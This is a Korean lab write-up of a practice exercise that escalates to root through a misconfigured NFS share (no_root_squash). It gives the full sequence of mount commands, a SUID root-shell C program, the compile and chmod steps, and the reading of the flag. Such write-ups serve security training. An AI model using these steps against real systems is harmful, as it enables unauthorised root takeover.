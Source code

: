 # Linux Privilege Escalation: NFS
> NFS(Network File System)의 설정 오류를 이용해 SUID 바이너리를 업로드하고 루트 쉘을 획득한 과정을 상세히 정리하였습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.112.198
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: 잘못 설정된 NFS 공유 디렉토리 내에 SUID 바이너리를 업로드하여 루트 권한 획득
- **실습 일자**: 2025-04-20

---

## 2. 실습 과정

### 2.1 SSH 접속 및 환경 분석
```bash
ssh karen@10.10.112.198
```
- 타겟 머신에 `karen` 계정으로 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

- `/etc/exports` 파일을 열어보니 NFS로 공유된 디렉토리(`/home/backup`, `/tmp`, `/home/ubuntu/sharedfolder`)가 `no_root_squash` 옵션과 함께 외부에 전체 공개되어 있는 것을 확인하였다.

![NFS 설정 확인](/screenshots/exports_nfs.png)

---

### 2.2 NFS 공유 디렉토리 식별

- Kali 머신에서 `showmount -e 10.10.112.198` 명령어로 NFS 공유 목록을 조회하였다.

```bash
showmount -e 10.10.112.198
```
- `/home/ubuntu/sharedfolder`가 공유되고 있음을 확인하였다.

![showmount 결과](./screenshots/nfs_share.png)

---

### 2.3 공유 디렉토리 마운트

- 공격 머신(Kali)에서 공유 디렉토리를 마운트할 임시 디렉토리를 생성하고, NFS로 공유된 디렉토리를 마운트하였다.

```bash
mkdir /tmp/attackmount
mount -o rw 10.10.112.198:/home/ubuntu/sharedfolder /tmp/attackmount
```
- `mount | grep attackmount` 명령어로 마운트가 정상적으로 이루어졌는지 확인하였다.

![NFS 마운트 확인](./screenshots/share_mount.png)

---

### 2.4 루트 쉘 SUID C 파일 작성 및 컴파일
- `/tmp/attackmount` 디렉토리에 루트 쉘을 획득할 수 있는 C 코드를 작성하였다.
```c
int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

![SUID 파일 작성](./screenshots/create_rootshell.png)


- 해당 코드를 `file.c`로 저장한 뒤, 정적 컴파일 및 SUID 권한 설정을 하였다.
```bash
gcc file.c -o file -static
chmod +s file
```

![SUID 파일 설정](./screenshots/compile_rootshell.png)

---

### 2.5 타겟 머신에서 SUID 실행 및 루트 쉘, 플래그 획득
- 타겟 머신의 `/home/ubuntu/sharedfolder` 디렉토리로 이동하여 `file` 바이너리를 실행하였다.

```bash
cd /home/ubuntu/sharedfolder
./file
```

- 이 바이너리는 공격자가 공유 디렉토리를 통해 업로드한 것이며, `setuid(0)`을 통해 루트 권한을 획득할 수 있었다.

- 루트 쉘이 정상적으로 획득되었음을 확인하고, 시스템을 탐색하여 플래그 파일을 찾아 읽어냈다.

```bash
find / -name flag7.txt
cat /home/matt/flag7.txt
```

![루트 쉘 및 플래그 획득](./screenshots/root_flag.png)

---

## 느낀 점

이번 실습을 통해, **단순한 파일 공유 설정 오류 하나가 전체 시스템 권한 상승으로 이어질 수 있음을 명확히 체감**하였다. 특히 `no_root_squash` 설정은 공격자가 root 권한을 에뮬레이션할 수 있게 해주며, 실질적으로 시스템을 장악할 수 있는 강력한 백도어 경로가 된다.

